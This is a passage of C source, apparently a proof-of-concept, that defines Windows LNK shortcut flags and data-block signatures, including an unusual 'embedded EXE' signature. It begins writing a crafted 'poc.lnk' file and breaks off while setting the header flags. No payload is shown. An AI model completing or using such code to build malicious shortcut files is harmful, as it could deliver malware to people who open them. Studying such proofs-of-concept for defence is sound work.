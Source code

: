 ```c
#define HAS_EXP_ICON                   0x00004000
#define NO_PIDL_ALIAS                  0x00008000
#define FORCE_USHORTCUT                0x00010000
#define RUN_WITH_SHIMLAYER             0x00020000
#define FORCE_NO_LINKTRACK             0x00040000
#define ENABLE_TARGET_METADATA         0x00080000
#define DISABLE_LINK_PATH_TRACKING     0x00100000
#define DISABLE_KNOWNFOLDER_TRACKING   0x00200000
#define DISABLE_KNOWNFOLDER_ALIAS      0x00400000
#define ALLOW_LINK_TO_LINK             0x00800000
#define UNALIAS_ON_SAVE                0x01000000
#define PREFER_ENVIRONMENT_PATH        0x02000000
#define KEEP_LOCAL_IDLIST_FOR_UNC      0x04000000

#pragma pack()

#define SW_SHOWNORMAL       0x00000001
#define SW_SHOWMAXIMIZED    0x00000003
#define SW_SHOWMINNOACTIVE  0x00000007

#define ENVIRONMENTAL_VARIABLES_DATABLOCK_SIGNATURE   0xA0000001
#define CONSOLE_DATABLOCK_SIGNATURE                   0xA0000002
#define TRACKER_DATABLOCK_SIGNATURE                   0xA0000003
#define CONSOLE_PROPS_DATABLOCK_SIGNATURE             0xA0000004
#define SPECIAL_FOLDER_DATABLOCK_SIGNATURE            0xA0000005
#define DARWIN_DATABLOCK_SIGNATURE                    0xA0000006
#define ICON_ENVIRONMENT_DATABLOCK_SIGNATURE          0xA0000007
#define SHIM_DATABLOCK_SIGNATURE                      0xA0000008
#define PROPERTY_STORE_DATABLOCK_SIGNATURE            0xA0000009
#define KNOWN_FOLDER_DATABLOCK_SIGNATURE              0xA000000B
#define VISTA_AND_ABOVE_IDLIST_DATABLOCK_SIGNATURE    0xA000000C
#define EMBEDDED_EXE_DATABLOCK_SIGNATURE              0xA000CAFE

int main() {
    const char* lnkFilePath = "poc.lnk";
    HANDLE hFile;
    DWORD bytesWritten;

    hFile = CreateFileA(lnkFilePath, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS,
        FILE_ATTRIBUTE_NORMAL, NULL);

    if (hFile == INVALID_HANDLE_VALUE) {
        printf("Failed to create LNK file: %lu\n", GetLastError());
        return 1;
    }

    SHELL_LINK_HEADER header = { 0 };
    header.HeaderSize = 0x0000004C;

    header.LinkCLSID.Data1 = 0x00021401;
    header.LinkCLSID.Data2 = 0x0000;
    header.LinkCLSID.Data3 = 0x0000;
    header.LinkCLSID.Data4[0] = 0xC0;
    header.LinkCLSID.Data4[1] = 0x00;
    header.LinkCLSID.Data4[2] = 0x00;
    header.LinkCLSID.Data4[3] = 0x00;
    header.LinkCLSID.Data4[4] = 0x00;
    header.LinkCLSID.Data4[5] = 0x00;
    header.LinkCLSID.Data4[6] = 0x00;
    header.LinkCLSID.Data4[7] = 0x46;

    header.LinkFlags = HAS_NAME |
        HAS_ARGUMENTS |
```